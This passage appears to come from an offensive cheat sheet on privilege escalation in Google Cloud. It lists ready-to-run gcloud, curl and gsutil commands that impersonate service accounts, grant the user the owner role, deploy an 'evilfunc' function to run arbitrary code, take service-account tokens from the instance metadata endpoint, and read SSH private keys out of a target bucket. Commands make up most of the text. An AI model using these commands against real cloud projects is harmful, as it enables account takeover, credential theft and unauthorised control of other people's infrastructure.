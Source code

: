 #### ⚙️ 2. Service Account Abuse

If you can impersonate another account:

```bash
gcloud auth print-access-token --impersonate-service-account admin@project.iam.gserviceaccount.com
```

***

#### 💣 3. Add Binding to Self

If you have `roles/resourcemanager.projectIamAdmin`:

```bash
gcloud projects add-iam-policy-binding project-id \
--member=user:you@example.com \
--role=roles/owner
```

***

#### 🧩 4. Cloud Functions & Run Exploitation

If allowed to deploy/update functions:

```bash
gcloud functions deploy evilfunc --runtime python39 --trigger-http --entry-point main --allow-unauthenticated
```

→ Execute arbitrary code as function’s service account.

***

#### ⚙️ 5. Metadata PrivEsc

From any GCP VM:

```bash
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

Use token to enumerate or act as the service account.

***

#### 💣 6. Storage & Key Leakage

```bash
gsutil ls gs://target-bucket
gsutil cat gs://target-bucket/.ssh/id_rsa
```

#### ⚙️ 7. IAM Rebinding

If you have editor privileges:

```bash
gcloud projects add-iam-policy-binding project-id \
--member=serviceAccount:you@project.iam.gserviceaccount.com \
--role=roles/owner
```
